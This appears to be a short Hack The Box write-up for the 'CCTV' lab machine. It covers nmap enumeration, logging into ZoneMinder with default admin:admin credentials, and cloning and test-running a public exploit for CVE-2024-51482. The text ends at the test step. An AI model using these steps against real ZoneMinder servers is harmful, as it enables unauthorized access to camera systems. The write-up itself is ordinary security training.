


# HTB: CCTV (Easy)

> **Hack The Box Writeup**
>
> **Machine:** CCTV  
> **Difficulty:** Easy  
> **Operating System:** Linux  
> **Date Solved:** 2026-05-24

---
nmap Enumeration
sudo nmap -sC -sV -p- -sS 10.129.244.156
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-30 07:11 EDT
Nmap scan report for 10.129.244.156
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://cctv.htb/
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

add to /etc/hosts
└──╼ [★]$ echo "10.129.244.156 cctv.htb" | sudo tee -a /etc/hosts
10.129.244.156 cctv.htb

goto http://cctv.htb in browser looked there for data

seen a login button there 

clicked it asked for username and password 
tried entering admin:admin and it worked

there is version mentioned there v1.37.63 this is of zoneminder

Found out there is a CVE for that specific version CVE-2024-51482

Do install this exploit from github
# Clone the repository
git clone https://github.com/BridgerAlderson/CVE-2024-51482.git
cd CVE-2024-51482

# Make the script executable
chmod +x CVE-2024-51482.py

# Install required dependencies
pip3 install requests

after installing exploit check by entering following command
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --test

